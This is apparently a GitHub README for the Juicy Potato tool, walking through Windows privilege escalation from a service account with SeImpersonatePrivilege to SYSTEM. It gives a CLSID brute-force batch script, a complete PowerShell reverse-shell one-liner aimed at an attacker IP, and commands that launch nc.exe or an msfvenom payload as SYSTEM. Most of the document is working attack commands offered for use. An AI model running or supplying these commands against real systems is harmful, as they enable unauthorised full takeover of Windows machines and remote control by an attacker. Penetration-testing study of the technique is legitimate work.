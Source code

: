 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

[Resource](https://github.com/ohpe/juicy-potato/tree/master/CLSID) 

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is 32-bit arch. Grab the Juicy Potato binary for 32-bit os.

[Resource](https://github.com/k4sth4/Juicy-Potato) 

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Bob\Desktop\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Bob\\Desktop\\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
### Changes to Make
Note: C:\\Users\\Bob\\Desktop\\CLSID.list and C:\\Users\\Bob\\Desktop\\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


## Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



## Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
   powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
   Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

# Reverse Shell

## Using Powershell shell.bat

```markdown
c:\\Users\\Bob\\Desktop\\JuicyPotato.exe -l 1234 -p c:\\Users\\Bob\\Desktop\\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 
```

## Using nc.exe

```markdown
c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\nc.exe -e cmd.exe 192.168.x.x 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```

## Using shell.exe 

```markdown
c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

## Get Reverse Shell as SYSTEM

![OnPaste 20220607-122743](https://user-images.githubusercontent.com/106917304/172315942-28946d1d-3a1f-45d5-ac1a-5ca03df1544b.png)



